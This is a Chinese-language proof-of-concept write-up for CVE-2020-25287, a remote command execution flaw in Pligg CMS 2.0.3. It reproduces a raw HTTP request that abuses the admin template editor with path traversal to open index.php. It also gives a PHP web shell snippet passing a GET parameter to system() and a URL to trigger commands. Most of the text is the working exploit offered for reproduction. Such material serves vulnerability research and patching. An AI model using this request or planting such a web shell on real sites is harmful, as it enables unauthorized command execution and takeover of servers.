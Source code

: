 （CVE-2020-25287）Pligg CMS 2.0.3 远程命令执行漏洞
==================================================

一、漏洞简介
------------

该漏洞源于模板编辑器可以编辑任何文件。攻击者可利用该漏洞执行任意命令。

二、漏洞影响
------------

Pligg CMS 2.0.3

三、复现过程
------------

### POC

![1.png](./.resource/(CVE-2020-25287)PliggCMS2.0.3远程命令执行漏洞/media/rId25.png)

转到`/admin/admin_editor.php`拦截请求并将路径更改为文件。

例如访问目录中的`index.php`文件：

![2.png](./.resource/(CVE-2020-25287)PliggCMS2.0.3远程命令执行漏洞/media/rId26.png)

    POST /admin/admin_editor.php HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 33
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://kliqqi
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://www.0-sec.org/admin/admin_editor.php
    Accept-Encoding: gzip, deflate
    Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
    Cookie: panelState=CollapseManage%7CCollapseSettings%7CCollapseTemplate; PHPSESSID=lfkc3gtrv5o1golmt5md3; mnm_user=Admin; mnm_key=QWRtaW46MjI0R2dEVTAxZncxZzpl
    Connection: close

    the_file=..%2Findex.php&open=Open

只需单击"在浏览器中显示响应"，然后编辑文件即可

![3.png](./.resource/(CVE-2020-25287)PliggCMS2.0.3远程命令执行漏洞/media/rId27.png)

例如 ：

      if($_GET['cmd']){
        system($_GET['cmd']);
    }

最后访问`website.fr?cmd=dir`

![4.png](./.resource/(CVE-2020-25287)PliggCMS2.0.3远程命令执行漏洞/media/rId28.png)
